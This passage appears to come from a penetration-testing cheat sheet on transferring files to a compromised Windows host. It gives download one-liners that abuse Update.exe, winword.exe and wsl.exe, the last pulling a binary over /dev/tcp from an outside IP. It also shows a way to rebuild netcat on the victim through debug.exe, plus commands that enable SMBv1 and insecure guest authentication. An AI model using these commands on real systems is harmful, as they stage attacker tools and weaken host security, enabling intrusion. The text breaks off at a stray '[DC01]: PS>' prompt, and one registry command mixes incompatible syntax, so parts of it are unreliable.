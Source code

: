 ```
Update.exe --download [url to package]
```
### Winword
#### Downloading files
```
winword.exe "http://192.168.1.10/TeamsAddinLoader.dll"
```
### Wsl
#### Downloading files
```
wsl.exe --exec bash -c 'cat < /dev/tcp/192.168.1.10/54 > binary'
```
### Debug.exe (Windows 32bits)
#### Downloading files
This is a crazy technique that works on windows 32 bit machines. Basically the idea is to use the `debug.exe` program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like `netcat`. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with `debug.exe`.

`Debug.exe` can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that:
```
upx -9 nc.exe
```
Now it only weights 29 kb. Perfect. So now let's disassemble it:
```
wine exe2bat.exe nc.exe nc.txt
```
Now we just copy-past the text into our windows-shell. And it will automatically create a file called nc.exe
## SMB
### Enable SMBv1 (client)

```
Enable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol-Client" -All
```
```
Set-ItemProperty -Path   "HKLM:\\SYSTEM\\CurrentControlSet\\Services\\LanmanWorkstation\\Parameters" SMB1 -Type DWORD -Value   1 -Force
```
### Enable SMBv2/3 (client)
```
Enable-WindowsOptionalFeature -Online -FeatureName "SMB2Protocol-Client" -All
```
```
Set-ItemProperty -Path   "HKLM:\\SYSTEM\\CurrentControlSet\\Services\\LanmanWorkstation\\Parameters" SMB2 -Type DWORD -Value   1 -Force
```
### Enable insecure guest authentication (client)
```
Set-itemproperty -name AllowInsecureGuestAuth -path "HKLM:\\System\\CurrentControlSet\\Services\\LanManWorkstation\\Parameters" -value "1"
```
```
reg add "HKLM:\System\CurrentControlSet\Services\LanmanWorkstation\Parameters\AllowInsecureGuestAuth" /v Restrict_Run /t REG_DWORD /d 1 /f
```
### Downloading files


[DC01]: PS>